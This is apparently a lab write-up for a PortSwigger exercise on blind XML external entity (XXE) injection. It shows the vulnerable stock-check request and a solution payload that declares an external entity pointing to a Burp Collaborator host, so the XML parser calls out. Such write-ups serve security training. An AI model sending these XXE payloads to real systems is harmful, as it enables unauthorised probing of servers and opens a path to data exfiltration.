 # [Lab: Blind XXE with out-of-band interaction](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction)

## Lab

This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the  [blind XXE](https://portswigger.net/web-security/xxe/blind) vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

## Analysis

check stock request:

```http
POST /product/stock HTTP/1.1
Content-Length: 107
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

the body:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>
    1
  </productId>
  <storeId>
    1
  </storeId>
</stockCheck>
```

## tools

- burpsuite scanner: detected `Issue: XML external entity injection`

## Solutions

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "https://collaborator"> ]>
<stockCheck>
  <productId>
    &xxe;
  </productId>
  <storeId>
    1
  </storeId>
</stockCheck>
```
